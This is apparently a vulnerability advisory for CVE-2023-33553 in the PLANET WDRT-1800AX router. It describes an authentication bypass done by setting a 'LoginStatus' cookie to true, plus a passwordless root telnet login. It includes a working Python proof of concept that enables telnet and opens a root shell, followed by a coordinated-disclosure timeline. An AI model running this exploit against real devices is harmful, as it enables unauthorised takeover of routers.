



# Planet Technologies WDRT-1800AX Authentication Bypass Vulnerability .

Affected Device: `WDRT-1800AX`

Affected Firmware: `v1.01-CP21`

Description:

```
The PLANET technologies 1800AX router runs a web service vulnerable to trivial authentication bypass.
The bypass can be combined with a telnet weakness leading to a root shell on the device. 
The router runs a minimal lighttpd binary to support a collection of JavaScript and html files which create requests to a 'cdata.cgi' binary.
This 32bit MIPS compiled binary supports the core functionality of the web service however uses a standard cookie to determine authenticated status. 
```

------

## Details

The WDRT-1800AX router from PLANET technologies uses a pre-set, boolean cookie for determining authentication to the web management pages. The cookie 'LoginStatus' is created when a user attempts to login to the login form hosted by a CGI binary running via Lighttpd.



By simply replacing `false` to `true`, a user can bypass the need to supply the password to the web form, and instead access all administration functions of the device, including but not limited to; password resets, configuration downloads and enabling telnet. 

Due to the router in its default configuration not having a password for the root user, when a user attempts to login to the telnet service as root, it simply supplies a session. 



With a basic proof of concept, any lan-adjacent attacker can gain root access to the device without needing the appropriate passwords to the service(s). An example can be found below to enable the telnet service and interact with it. 

```python
import requests, telnetlib, sys
host = sys.argv[1]
url = 'http://'+host+'/cgi-bin/cdata.cgi'

cookies = {'LoginStatus':'true'}

headers = {
   'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
   'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
}
# doesnt check if its already enabled, just tries to enable it. 
data = {
   'operation': 'DevManagement',
   'opt': 'telnet',
   'telnet': '1',
}

user = "root"
print("enabling telnet")

req = requests.post(url, headers=headers,data=data)

if req.text != '{ "err": 0 }':
   print("failed")

tn = telnetlib.Telnet(host, 23)
if (tn):
   print("connecting to session")
   tn.read_until(b"login: ")
   tn.write(user.encode('ascii') + b"\n")
   tn.interact()
```





### Disclosure 

13/2/23 - Issue identified, pocs created and reported via support page <br>
13/2/23 - Vendor reply asking for further information <br>
13/2/23 - Send python proof of concepts and expanded the explaination <br>
15/2/23 - Vendor reply confirming the behavior, estimating a fixed release in Q2 2023. <br>
07/04/23 - Vendor pushed updated firmware <br>
05/05/23 - Advisory released <br>
08/06/23 - Mitre assigns CVE-2023-33553

### Extra notes

When I was first looking into the web app running in QEMU, I figured that the option to change the language to English was broken since the management option was set but not rendering. This was until I realised that the English language JavaScript file wasn't ever being included in the pre-set html pages, renaming the `lang_en.js` to `lang_zh.js` and clearing browser cache allowed the page to render without having to translate everything manually. :) 


